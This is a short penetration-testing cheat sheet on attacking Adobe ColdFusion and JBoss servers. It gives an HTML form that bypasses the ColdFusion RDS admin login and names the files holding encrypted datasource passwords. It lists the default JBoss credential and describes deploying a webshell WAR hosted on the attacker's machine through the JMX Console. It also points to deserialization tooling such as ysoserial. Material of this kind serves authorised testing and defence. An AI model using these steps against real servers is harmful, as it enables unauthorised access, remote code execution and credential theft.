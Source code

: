 Sources:
[JMPESPJUMP - Attacking Adobe Cold Fusion](https://jumpespjump.blogspot.com/2014/03/attacking-adobe-coldfusion.html)

_Decrypt CFM Files back to source_

- https://github.com/disccomp/cfdecrypt

_CF RDS Logon Bypass (Create this html file locally and submit to obtain a auth session)_

```
    <form action="http://[HOSTNAME:PORT]/CFIDE/adminapi/administrator.cfc?method=login" method="post">
    <input name="adminpassword" type="hidden" value="" />
        <input name="rdsPasswordAllowed" type="hidden" value="1" />
        <input type="submit" />
    </form>
```

_For ColdFusion 6 and 7 the passwords for DataSources encrypted in the following XML files:_

- [ColdFusion_Install_Dir]\lib\neo-query.xml

_For ColdFusion 8, 9 and 10:_

- [ColdFusion_Install_Dir]\lib\neo-datasource.xml

### Java

#### JBOSS

Default credential is "admin:admin"

```
0. Host your .jar/.war payload with webshell on local webserver

1. Navigate to the JMX Console on the target host (http://IP.Ad.dr.ess:port/jmx-console/) and search for “service=MainDeployer”.

2. From here you’ll want to utilize the deploy() function since it allows you to enter a URL as a parameter value in java.net.URL.  In this field, enter your attack IP and the name of the WAR file in the URL box and then click the “Invoke” button.
```

Other ways to gain execution

```
* jboss.deployment
* jboss.system (MainDeployer)
* http://localhost:8080/invoker/JMXInvokerServlet
* Java Deserialization Vuln via JMXInvokerServlet
* https://www.redteam-pentesting.de/en/publications/jboss/-bridging-the-gap-between-the-enterprise-and-you-or-whos-the-jboss-now
* https://github.com/frohoff/ysoserial
* https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
* https://www.cigital.com/blog/mitigate-java-deserialization-vulnerability-jboss/
```

